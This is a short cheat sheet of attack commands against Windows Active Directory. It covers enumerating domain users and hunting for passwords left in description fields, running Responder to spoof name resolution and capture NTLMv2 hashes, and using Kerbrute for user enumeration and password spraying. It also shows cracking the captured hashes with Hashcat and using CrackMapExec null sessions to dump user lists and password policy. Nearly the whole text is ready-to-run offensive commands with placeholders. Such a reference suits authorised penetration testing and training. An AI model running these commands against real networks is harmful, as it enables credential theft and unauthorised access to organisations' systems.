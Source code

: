 # Active Directory

## Powershell

### Load the built-in Active Directory PowerShell module

```powershell title="PowerShell"
Import-Module ActiveDirectory
```

### List domain users using Get-ADUser and filter by the username

```powershell title="PowerShell"
Get-ADUser -Filter * | select Name
```

### Check the description field of domain users for sensitive data such as passwords

```powershell title="PowerShell"
Get-DomainUser * | Select-Object samaccountname,description
```

## Responder

### Analysis mode

```bash
sudo responder -I <interface> -A
```

### Response spoofing to gather NTLMv2 password hashes

```bash
sudo responder -I <interface> -w -d
```

## Kerbrute

### Enumerate valid Active Directory users for password spraying

```bash
kerbrute userenum -d <domain> --dc <ip> jsmith.txt -o kerb-results
```

```bash
kerbrute passwordspray -d <domain> --dc <ip> valid_users.txt <password>
```

## Hashcat

### Crack an NTLMv2 hash gathered with Responder

```bash
hashcat -m 5600 <hash> <wordlist>
```

## CrackMapExec

### Enumerate the domain password policy

```bash
crackmapexec smb <ip> -u <user> -p <password> --pass-pol
```

### SMB NULL sessions on a dc host and enumerate valid users

```bash
crackmapexec smb <ip> -u '' -p '' --users --export $(pwd)/users.txt
```

